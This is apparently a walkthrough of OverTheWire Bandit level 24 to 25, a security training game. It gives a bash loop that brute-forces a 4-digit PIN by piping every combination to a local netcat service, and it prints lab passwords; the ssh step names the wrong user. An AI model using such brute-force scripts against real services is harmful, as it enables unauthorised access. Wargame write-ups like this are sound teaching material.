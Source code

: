 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Solution

It is apparent that we need to create a script and for training purposes it is going to be a bash script. The script Runs over all the possible 4 digit combinations and then returns the correct value when found.
1. Create a bash script file.
```Bash
touch /tmp/bruteforce.sh
```

2. The bash Script is as follows.
```Bash
#!/bin/bash
rm /tmp/bandit25/output
for i in {0000..9999}
do 
  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done | nc localhost 30002
```
Notice that the piping to the port is done only after all the combinations had finished computing. The basic reason for this is that if netcat is called everytime, this would create multiple procesess that wont shutdown as we dont know the PID of each command. These processes needs resources to stay alive after they have done their purpose, so after a while there are no longer resources to allocate for new commands. So in short, it is more efficient to send all the data all at once instead of sending through the script.

3. Run the script until the password appears.
```Bash
./bruteforce.sh
```
The password should be visible now.

4. Exit the bandit24 shell
```Bash
exit
```

5. ssh into bandit25
```Bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
